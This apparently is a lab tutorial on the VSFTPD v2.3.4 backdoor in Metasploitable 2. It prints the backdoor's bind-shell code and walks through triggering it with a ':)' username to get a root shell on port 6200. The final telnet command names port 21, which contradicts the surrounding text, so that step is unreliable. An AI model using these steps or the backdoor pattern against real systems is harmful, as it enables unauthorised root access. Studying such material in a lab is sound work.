

Cyber Security
Cyber Security
Exploiting vulnerabilities in practice¶
Exploiting VSFTPD v2.3.4¶
VSFTPD v2.3.4 vulnerable source code¶
Note
When we scroll through the exploit code we find the following code (lines 37 to 41) validates the user input on the username:
37 else if((p_str->p_buf[i]==0x3a) 38 && (p_str->p_buf[i+1]==0x29)) 39 { 40 vsf_sysutil_extra(); 41 }Important
Hexadecimal to ASCII
0x3a= :
0x29= )
Line 37 and 38 checks for user input containing hexadecimal chars 0x3a followed by 0x29 which together represent the smiley face « :) » characters. When the username contains both these characters the ‘else if’ statement executes the vsf_sysutil_extra function.
Note
vsf_sysutil_extra function
75 int 76 vsf_sysutil_extra(void) 77 { 78 int fd, rfd; 79 struct sockaddr_in sa; 80 if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0) 81 exit(1); 82 memset(&sa, 0, sizeof(sa)); 83 sa.sin_family = AF_INET; 84 sa.sin_port = htons(6200); 85 sa.sin_addr.s_addr = INADDR_ANY; 86 if((bind(fd,(struct sockaddr *)&sa, 87 sizeof(struct sockaddr))) < 0) exit(1); 88 if((listen(fd, 100)) == -1) exit(1); 89 for(;;) 90 { 91 rfd = accept(fd, 0, 0); 92 close(0); close(1); close(2); 93 dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2); 94 execl("/bin/sh","sh",(char *)0); 95 } 96 }
A socket is a way of connecting two network nodes together so they can communicate with each other. The first socket is listening for an incoming connection while the second socket reaches out and connects to the listening socket. The server forms the listening socket and the client the connecting socket. With this in mind let’s have a look at the exploit code from line 79 and onwards.
The ‘struct sockaddr_in’ in line 79 is a code structure in C programming that defines a variable in the socket code. In this case ‘struct sockaddr_in sa’ defines the internet address as ‘sa’. The structure is defined by the sin_family which is set to the constant AF_INET (IPv4 address type) in line 83, sin_port is set to 6200 in line 84 and the client address set to ‘any’ in line 85. The code after that uses the structure to setup a bind socket and a listener process on the socket to listen for incoming connections. Note that this code is run in the target server context, so the server sets up the bind socket and listener which is used by the remote attacker for setting up a connection. Line 94 provides a shell to anyone connecting to the server on port 6200.
Exploiting VSFTPD v2.3.4 manually¶
Now we will demonstrate exploiting the backdoor vulnerability manually by connecting to the VSFTPD service and using a Smiley face as the username to authenticate.
Note
Enter the following command on your attack box:
1 telnet [Metasploitable IP] 21 2 3 USER user:) 4 PASS passThen use the escape character ^] (ctrl+]) or wait a few seconds.
If we then fire up Nmap and scan for port 6200 we should see that the malicious code has been executed and port 6200 is open:
Let’s connect to port 6200 using telnet with the following command:
1 telnet [target host IP] 21If we enter the command id; we will see that the FTP service is running as root and we have a root shell on Metasploitable 2.
{kind=link}
{kind=link}
{kind=link}
{kind=link}
{kind=link}